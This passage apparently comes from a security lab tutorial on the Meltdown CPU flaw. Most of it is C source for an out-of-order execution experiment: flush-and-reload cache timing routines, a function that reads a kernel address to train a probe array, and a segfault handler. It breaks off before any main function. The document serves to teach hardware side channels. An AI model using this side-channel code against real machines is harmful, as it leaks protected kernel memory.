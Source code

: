 ## Out-of-Order Execution by CPU

Let's use an experiment (<code>MeltdownExperiment.c</code>) to observe the effect caused by an out-of-order execution:
```c
/* MeltdownExperiment.c */
#define _POSIX_SOURCE
#include <setjmp.h>
#include <signal.h>
#include <x86intrin.h>
#include <stdint.h>
#include <stdio.h>

uint8_t array[256 * 4096];
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
    int i;

    /* Write to array to bring it to RAM to prevent COW */
    for (i = 0; i < 256; i++) {
        array[i * 4096 + DELTA] = 1;
    }
    /* Flush the values of the array from cache */
    for (i = 0; i < 256; i++) {
       _mm_clflush(&array[i * 4096 + DELTA]);
    }
}

void reloadSideChannel()
{
    unsigned int junk = 0;
    register uint64_t time1, time2;
    volatile uint8_t *addr;
    int i;
    for (i = 0; i < 256; i++) {
        addr = &array[i * 4096 + DELTA];
        time1 = __rdtscp(&junk);
        junk = *addr;
        time2 = __rdtscp(&junk) - time1;
        if (time2 <= CACHE_HIT_THRESHOLD) {
            printf("array[%d * 4096 + %d] is in cache!\n", i, DELTA);
            printf("The secret is %d.\n", i);
        }
    }
}

void meltdown(unsigned long kernel_data_addr)
{
    char kernel_data = 0;
    /* The following statemnet will cause an exception */
    kernel_data = *(char *)kernel_data_addr;
    array[7 * 4096 + DELTA] += 1;
}

/* Signal handler*/
static sigjmp_buf jbuf;
static void catch_segv()
{
    siglongjmp(jbuf, 1);
}
```